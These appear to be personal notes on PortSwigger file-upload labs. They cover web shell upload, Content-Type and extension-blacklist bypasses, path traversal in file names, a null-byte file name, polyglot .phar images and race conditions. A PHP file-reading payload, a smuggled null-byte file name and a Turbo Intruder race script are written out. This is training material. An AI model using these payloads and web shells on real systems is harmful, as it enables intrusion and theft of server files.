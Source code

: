 creds: 
	wiener:peter

# Remote code execution via web shell upload
Login using Given creds wiener:peter

using simple webshell from
[easy-simple-php-webshell.php](https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php)

![[Pasted image 20230304174619.png]]
![[Pasted image 20230304174630.png]]
![[Pasted image 20230304174711.png]]![[Pasted image 20230304174728.png]]
![[Pasted image 20230304174747.png]]
![[Pasted image 20230304174807.png]]

# Web shell upload via Content-Type restriction bypass
login 
trying to upload php shell and got this error
![[Pasted image 20230304175656.png]]
changing file type using burp 
![[Pasted image 20230304175817.png]]
![[Pasted image 20230304175833.png]]
![[Pasted image 20230304175851.png]]
![[Pasted image 20230304175903.png]]
![[Pasted image 20230304175923.png]]


# 
Login

uploaded shell to the server

![[Pasted image 20230304180113.png]]
when uploading any php file it just displays the text on website without executing
```php
<?php
echo file_get_contents("../../../../../..//home/carlos/secret");
?>
```

![[Pasted image 20230304183646.png]]
what we can do is use path traversal vulnerability in the file name to save it somewhere else where it will get executed
![[Pasted image 20230304193454.png]]
flag will be located inside 1 directory back 
![[Pasted image 20230304193605.png]]
![[Pasted image 20230304193614.png]]


# Web shell upload via extension blacklist bypass


looking at this [article](https://thibaud-robin.fr/articles/bypass-filter-upload/) we know that we can upload a .htaccess and add the extension we want to execute inside the file and we tested earlier that .php5 gets executed
and lso make content type text/plain
![[Pasted image 20230304201629.png]] 
then upload our payload
![[Pasted image 20230304201819.png]]
![[Pasted image 20230304201848.png]]


# Web shell upload via obfuscated file extension

using [hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload)
`file.php%00.png%00.jpg` worked by using null byte bypass 
![[Pasted image 20230304203132.png]]
accessing the file 
![[Pasted image 20230304203259.png]]


# Remote code execution via polyglot web shell upload

Polyglots, in a security context, are files that are a valid form of multiple different file types. For example, a GIFAR is both a GIF and a RAR file. There are also files out there that can be both GIF and JS, both PPT and JS, etc.
Polyglot files are often used to bypass protection based on file types. Many applications that allow users to upload files only allow uploads of certain types, such as JPEG, GIF, DOC, so as to prevent users from uploading potentially dangerous files like JS files, PHP files or Phar files.
This helps to upload a file that complins with the format of several different formats. It can allows you to upload a PHAR file (PHp ARchive) that also looks like a JPEG, but probably you will still needs a valid extension and if the upload function doesn't allow it this won't help you.

## Solution 

downloading a random image from google and then appending the code to it
![[Pasted image 20230304205254.png]]
and give it extension .phar which is php and rar
![[Pasted image 20230304205401.png]]
![[Pasted image 20230304205416.png]]
viewing page source and going to the end of the file

![[Pasted image 20230304205454.png]]



# Web shell upload via race condition
Because website downloads the file then does a virus check and validate the file it can be vulnerable to a race condition attack which is sending multiple requests in quick succession  which result in getting the file executed before getting deleted by the filter
## Solution 1 Intruder
Getting both Post requests and GET requests into intruder to run them bother together in succession to upload the file then retrieve it's content in same time

![[Pasted image 20230304220400.png]]

![[Pasted image 20230304220435.png]]

both payloads will be null 
![[Pasted image 20230304220455.png]]

start attack on both
![[Pasted image 20230304220540.png]]

## Solution 2 Turbo Intruder


downloading turbo intruder to burp
![[Pasted image 20230304221511.png]]
![[Pasted image 20230304221552.png]]

using the following turbo intruder script 
[turbointruder.py](https://github.com/nh4ttruong/portswigger/blob/main/file-upload-vulnerabilities/race-condition/turbo-sample.py)
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
then replacing POST and GET request 
then attack
![[Pasted image 20230304221707.png]]
![[Pasted image 20230304221739.png]]

---
Tags: #file_upload 
Resources:
[HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)
[Vikie](https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a)
[Th1b4ud blog](https://thibaud-robin.fr/articles/bypass-filter-upload/)
[onsecurity](https://www.onsecurity.io/blog/file-upload-checklist/#uploading-a-htaccess-file)
